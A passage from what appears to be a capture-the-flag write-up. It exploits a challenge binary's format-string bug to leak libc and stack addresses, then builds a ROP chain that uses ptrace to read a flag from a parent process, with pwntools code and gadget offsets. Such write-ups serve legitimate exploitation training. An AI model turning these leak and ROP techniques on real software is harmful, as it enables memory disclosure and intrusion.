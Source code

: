 and as you can see, we're able to read another process memory and leak the flag.

with this mind lets develop the exploit for it, we still have bof and format string that we haven't abused yet.

#### Implementing PTRACE ROP

to do this, we need to be able to control a lot of register to pass the `PTRACE` arguments, however the `red40` binary itself doesn't have an abundance of gadgets.&#x20;

libc in the other hand has practically all of the gadget we need, and thus a leak to libc address will enable us to ROP through the gadget to control the register. we will exploit the format string to leak a libc address.

the binary also have PIE enabled, and thus we also need to leak a writeable address for which it will store the data from `parent` that wanted to be read. I chose the stack as it is easy to leak from the same format string.

```python
io.sendlineafter(b'>', b'3')
io.sendlineafter(b'>', b'%10$p|%41$p')

io.recvline() 
leak = io.recvline().strip().replace(b'0x', b'').split(b'|')
stack = int(leak[0], 16)
libc.address = int(leak[1], 16) - 128 - libc.sym['__libc_start_main']
stack = stack - 0x188
```

&#x20;our ROP payload will be split into three section:

1.  _**Initating PTRACE**_\
    &#x20;          &#x20;

    <pre class="language-python"><code class="lang-python"><strong>    # PTRACE ATTACH
    </strong>    libc.address + 0x45eb0, # pop rax; ret
        PTRACE_NR,
        libc.address + 0x2a3e5, # pop rdi; ret
        PTRACE_ATTACH,
        libc.address + 0x2be51, # pop rsi; ret,
        PPID,
        libc.address + 0x11f2e7, # pop rdx; pop r12; ret,
        0x0,
        0x0,
        libc.sym['ptrace'],
        
        # SLEEP WAIT
        libc.address + 0x2a3e5, # pop rdi; ret
        0x10,
        libc.sym['sleep'],
    </code></pre>

    \
    the sleep to wait is mandatory or else, the subsequent PTRACE operations will returns an error, I can't say for sure how long the duration will be.
2.  _**Reading flag from `parent` and storing it in `red40`**_\
    calling PTRACE with `PTRACE_PEEKDATA` only read 8 bytes (in x64) from the starting memory of which is in RAX. \
    \
    I'm not sure if there's anyway to read more than 8 bytes, but since the we have no length limitation on our ROP payload, because the bof is triggered by `gets()` , I didn't bother to look it up.\
    \
    and so I wrote this function to read 8 bytes and mov the return value to the writeable address in the current process.\

